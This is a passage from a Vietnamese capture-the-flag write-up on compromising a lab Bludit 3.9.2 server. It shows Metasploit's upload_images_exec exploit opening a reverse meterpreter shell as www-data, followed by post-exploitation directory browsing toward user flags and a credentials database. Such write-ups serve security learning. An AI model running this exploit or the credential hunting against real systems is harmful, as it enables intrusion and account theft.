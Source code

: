 ```
View the full module info with the info, or info -d command.
```
RCE thành công
```
msf6 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.93:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
<SNIP>

meterpreter > shell
Process 9914 created.
Channel 0 created.
whoami
www-data
```
## Post-Exploit
Sau khi xâm nhập thành công, truy cập vào `/home` nhưng lại có và vẫn chưa thấy được `user.txt`
```
cd /home/fergus
/bin/sh: 6: cd: can't cd to /home/fergus
cd /home
ls
hugo
shaun
```
Sau đó cd vào 2 user này thì lại thấy user `hugo` đang có flag nhưng không có quyền để đọc
```
cd hugo
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
user.txt
cat user.txt
cat: user.txt: Permission denied
```

Tiếp tục thấy một folder khá thú vị là `databases` bao gồm credential của `fergus` và admin
```
ls
databases
pages
tmp
uploads
workspaces
pwd
/var/www/bludit-3.9.2/bl-content
cd databases
ls
categories.php
pages.php
plugins
security.php
site.php
syslog.php
tags.php
users.php
```